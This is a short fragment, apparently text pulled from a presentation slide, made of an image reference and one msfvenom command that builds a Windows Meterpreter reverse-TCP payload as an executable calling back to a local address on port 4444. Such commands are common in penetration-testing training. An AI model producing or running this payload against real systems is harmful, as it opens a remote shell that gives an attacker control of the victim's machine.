

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > reverse_shell.exe